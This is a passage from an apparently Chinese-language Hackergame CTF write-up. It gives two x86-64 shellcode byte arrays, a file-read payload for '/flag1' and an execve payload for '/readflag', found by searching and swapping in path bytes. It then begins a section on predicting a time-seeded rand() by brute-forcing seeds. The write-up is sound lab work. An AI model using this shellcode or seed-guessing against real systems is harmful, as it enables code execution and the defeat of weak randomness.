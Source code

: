 两问只要根据需要替换 `shellcode` 就可以了

第一问搜索 read file shellcode

![image-20221025113409348](./hackergame/image-20221025113409348.png)

把搜索结果里的 shellcode 的表示路径的 ASCII 码替换即可：

```c
unsigned char shellcode[] =
    "\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66"
    "\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f"
    "\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0"
    "\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x66"
    "\x6c\x61\x67\x31\x00\x00\x00\x00\x00\x41";
```

第二问搜索 execve shellcode，同理替换表示路径的部分即可：

```c
unsigned char shellcode[] = "\x31\xc0\x50\x48\x8b\x14\x24\xeb\x10\x54"
                            "\x78\x06\x5e\x5f\xb0\x3b\x0f\x05\x59\x5b"
                            "\x40\xb0\x0b\xcd\x80\xe8\xeb\xff\xff\xff"
                            "/readflag";
```

按照题目说明编译，提交就可以过了

## 蒙特卡罗轮盘赌

显然切入点在 `rand()` 函数，谷歌搜索 C rand hack ctf（别问这个为什么要搜，问就是年轻人的第一场 CTF

发现当 `srand` 的参数和时间有关时，可以考虑本地枚举附近的时间，找到可能的随机种子

（刚好这题也允许我们失败两次，容错还是比较大的）

```c
srand((unsigned)time() + clock())
```

我们编个测试程序看看这两个值的范围
